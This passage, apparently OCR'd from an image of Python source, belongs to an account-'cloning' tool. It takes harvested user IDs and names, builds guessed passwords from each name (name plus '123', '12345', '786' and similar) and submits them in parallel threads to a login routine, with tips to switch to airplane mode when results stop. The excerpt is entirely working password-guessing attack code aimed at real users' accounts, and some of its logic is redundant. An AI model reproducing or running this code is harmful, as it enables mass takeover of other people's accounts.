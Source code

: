 			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						fi , la = name.split(' ')
						first = fi.lower()
						last = la.lower()
						if len(xz) == 1:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						elif len(xz) == 2:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						elif len(xz) == 3:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						elif len(xz) == 4:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						else:
							pwx = [first+' '+last, first+last, first+'123', first+'12345']
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('2', '02'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						else:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345"]
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('3', '03'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m FILE CLONING ONLY OK IDS ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')